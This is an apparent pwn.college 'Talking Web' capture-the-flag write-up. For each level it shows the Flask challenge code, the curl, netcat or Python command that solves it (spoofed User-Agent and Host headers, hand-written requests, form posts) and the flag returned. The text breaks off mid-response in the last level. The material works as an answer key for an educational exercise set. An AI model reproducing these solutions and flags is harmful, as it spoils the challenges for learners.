


# Talking Web

## Your First HTTP Request

We have to use the GUI Desktop in `pwn.college`. Run `/challenge/run` in the Terminal and open Firefox on the Flask development server.


Flag: `pwn.college{I3Lghsr84yUMpZ7_aE6nXr7fhet.0lMxgDNxwyMyITOyEzW}`

## Reading Flask

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/submit", methods=["GET"])
def challenge():
    if "Firefox" not in flask.request.headers.get("User-Agent"):
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.run("challenge.localhost", 80)
```

We can solve with `tmux`, without opening Firefox:


Run the development Flask server `/challenge/server` in one window, and in the other one use `curl`:

```
hacker@talking-web~reading-flask:~$ curl -H 'User-Agent: Firefox' -H 'Host: challenge.localhost' http://127.0.0.1:80/submit
```

## Commented Data

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/pass", methods=["GET"])
def challenge():
    if "Firefox" not in flask.request.headers.get("User-Agent"):
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <!-- TOP SECRET: <p>{open("/flag").read().strip()}</p> -->
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.run("challenge.localhost", 80)
```

Same thing, run `tmux`. Run `/challenge/server` on one window, and `curl` on another:

```
hacker@talking-web~commented-data:~$ curl -H 'User-Agent: Firefox' -H 'Host: challenge.localhost' http://localhost/pass

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <!-- TOP SECRET: <p>pwn.college{IS2OLuJ3hJQUAjo7t1AzQXMft46.0FNxgDNxwyMyITOyEzW}</p> -->
        </body>
        </html>
```

## HTTP Metadata

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/pwn", methods=["GET"])
def challenge():
    if "Firefox" not in flask.request.headers.get("User-Agent"):
        flask.abort(400, "You are using an incorrect client to access this resource!")

    response = flask.make_response(
        "<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>"
    )
    response.headers["X-Flag"] = open("/flag").read().strip()
    return response


app.secret_key = os.urandom(8)
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-metadata:~$ curl -v -H 'User-Agent: Firefox' -H 'Host: challenge.localhost' http://localhost/pwn
* Host localhost:80 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:80...
* connect to ::1 port 80 from ::1 port 41780 failed: Connection refused
*   Trying 127.0.0.1:80...
* Connected to localhost (127.0.0.1) port 80
* using HTTP/1.x
> GET /pwn HTTP/1.1
> Host: challenge.localhost
> Accept: */*
> User-Agent: Firefox
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.6 Python/3.8.10
< Date: Fri, 03 Oct 2025 01:15:18 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 84
< X-Flag: pwn.college{UftH6EOkx_qDofXiZdcymgBhlbz.0VNxgDNxwyMyITOyEzW}
< Connection: close
<
* shutting down connection #0
<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>
```

## HTTP (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    response = flask.make_response(
        "<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>"
    )
    response.headers["X-Flag"] = open("/flag").read().strip()
    return response


app.secret_key = os.urandom(8)
app.run("challenge.localhost", 80)
```

Using `nc`, and writing the HTTP request manually:
```
hacker@talking-web~http-netcat:~$ nc -v challenge.localhost 80
Connection to challenge.localhost (127.0.0.1) 80 port [tcp/http] succeeded!
GET / HTTP/1.1
Host: challenge.localhost
Accept: */*

HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Fri, 03 Oct 2025 01:21:58 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 84
X-Flag: pwn.college{MSMWs1VLOiiAv4ZxY_5_IulVhkC.QX5YjMzwyMyITOyEzW}
Connection: close

<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>
```

## HTTP Paths (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/pass", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-paths-netcat:~$ nc -v challenge.localhost 80
Connection to challenge.localhost (127.0.0.1) 80 port [tcp/http] succeeded!
GET /pass HTTP/1.1
Host: challenge.localhost
Accept: */*

HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Fri, 03 Oct 2025 01:25:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 224
Connection: close


        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{EG0kDXsFIX6YIgA6qZniTA8YyDY.QX1cjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP (curl)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/authenticate", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["curl"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-curl:~$ curl http://challenge.localhost/authenticate

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{YHHPQksEw9qPACqnPfxArqGmywj.QX0cjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP (python)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/check", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["python3"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-python:~$ python3 -c 'import requests; resp = requests.get("http://challenge.localhost:80/check"); print(resp.text)'

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{gtN8CIMSmTc0YlT5_J18RArf-bd.QX2cjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Host Header (python)

```
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/mission", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["python3"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "net-force.nl:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-host-header-python:~$ python3 -c 'import requests; r = requests.get("http://localhost:80/mission",headers={"Host":"net-force.nl"}); print(r.text)'

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{QYbLq5X7bMBMiEiIrihKm7iGWTg.QXzcjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Host Header (curl)

```
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/gate", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["curl"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "sadservers.com:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-host-header-curl:~$ curl -H 'Host: sadservers.com' http://localhost:80/gate

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{ctMfwIUhHedT6nECJV4zSWBV35N.QXxcjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Host Header (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/verify", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    response = flask.make_response(
        "<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>"
    )
    response.headers["X-Flag"] = open("/flag").read().strip()
    return response


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "gandalf.lakera.ai:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-host-header-netcat:~$ nc -v localhost 80
nc: connect to localhost (::1) port 80 (tcp) failed: Connection refused
Connection to localhost (127.0.0.1) 80 port [tcp/http] succeeded!
GET /verify HTTP/1.1
Host: gandalf.lakera.ai

HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Fri, 03 Oct 2025 01:39:33 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 84
X-Flag: pwn.college{4XUmfZVILf9VS9wZc_Vii3MKkrY.QXycjMzwyMyITOyEzW}
Connection: close

<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>
```

## URL Encoding (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/evaluate verify meet", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    response = flask.make_response(
        "<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>"
    )
    response.headers["X-Flag"] = open("/flag").read().strip()
    return response


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~url-encoding-netcat:~$ nc -v localhost 80
nc: connect to localhost (::1) port 80 (tcp) failed: Connection refused
Connection to localhost (127.0.0.1) 80 port [tcp/http] succeeded!
GET /evaluate%20verify%20meet HTTP/1.1
Host: challenge.localhost

HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Fri, 03 Oct 2025 01:42:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 84
X-Flag: pwn.college{47CcG7YuCfK8YAxK0ePUguEoww8.QX5cjMzwyMyITOyEzW}
Connection: close

<html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>
```

## HTTP GET Parameters

```
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/meet", methods=["GET"])
def challenge():
    if flask.request.args.get("pass", None) != "qslkkqxj":
        flask.abort(403, "Incorrect value for get parameter pass!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-get-parameters:~$ curl -H 'Host: challenge.localhost' 'http://localhost:80/meet?pass=qslkkqxj'

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{ULbyMrOG6qyQZdIRg5jQZMflTIw.QXwgjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## Multiple HTTP Parameters (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/task", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.args.get("signature", None) != "pbdtqqwb":
        flask.abort(403, "Incorrect value for get parameter signature!")

    if flask.request.args.get("code", None) != "ytpohdyp":
        flask.abort(403, "Incorrect value for get parameter code!")

    if flask.request.args.get("access_code", None) != "pfgdjzvf":
        flask.abort(403, "Incorrect value for get parameter access_code!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~multiple-http-parameters-netcat:~$ nc -v 127.0.0.1 80
Connection to 127.0.0.1 80 port [tcp/http] succeeded!
GET /task?signature=pbdtqqwb&code=ytpohdyp&access_code=pfgdjzvf HTTP/1.1
Host: challenge.localhost

HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Fri, 03 Oct 2025 01:49:09 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 224
Connection: close


        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{0T-pTlf4GN-d0RpvkGMOyvfOo7S.QX0gjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## Multiple HTTP Parameters (curl)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/trial", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["curl"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.args.get("code", None) != "keoetqzz":
        flask.abort(403, "Incorrect value for get parameter code!")

    if flask.request.args.get("unlock_code", None) != "xuigyijp":
        flask.abort(403, "Incorrect value for get parameter unlock_code!")

    if flask.request.args.get("flag", None) != "vatxdzwv":
        flask.abort(403, "Incorrect value for get parameter flag!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~multiple-http-parameters-curl:~$ curl -H 'Host: challenge.localhost' 'http://127.0.0.1:80/trial?code=keoetqzz&unlock_code=xuigyijp&flag=vatxdzwv'

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{EGP3kDycmwMtQ9i1t_4QnT30jAU.QXzgjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Forms

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/", methods=["GET"])
def challenge_index():
    return """<html>
      <h1>Your form:</h1>
      <form action="/meet" method=post>
            <input name=credential>
            <input type=submit value=Submit>
      </form>
    </html>"""


@app.route("/meet", methods=["POST"])
def challenge():
    if "Firefox" not in flask.request.headers.get("User-Agent"):
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.form.get("credential", None) != "eiozsbzy":
        flask.abort(403, "Incorrect value for post parameter credential!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-forms:~$ curl -X POST -d 'credential=eiozsbzy' -H 'User-Agent: Firefox' http://challenge.localhost:80/meet

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{gHwEPc16qAKBOgeSX1ExHmI_NjA.0lNxgDNxwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Forms (curl)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/fulfill", methods=["POST"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["curl"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.form.get("solution", None) != "yjivelfj":
        flask.abort(403, "Incorrect value for post parameter solution!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-forms-curl:~$ curl -X POST -d 'solution=yjivelfj' http://challenge.localhost:80/fulfill

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{cXroyUKf-GR8ROm-zIByr4PF40G.QX2gjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Forms (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/fulfill", methods=["POST"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.form.get("solution", None) != "tnzjoknq":
        flask.abort(403, "Incorrect value for post parameter solution!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-forms-netcat:~$ nc -v localhost 80
nc: connect to localhost (::1) port 80 (tcp) failed: Connection refused
Connection to localhost (127.0.0.1) 80 port [tcp/http] succeeded!
POST /fulfill HTTP/1.1
Host: challenge.localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Connection: Close

solution=tnzjoknq
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Fri, 03 Oct 2025 02:12:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 224
Connection: close


        <html>
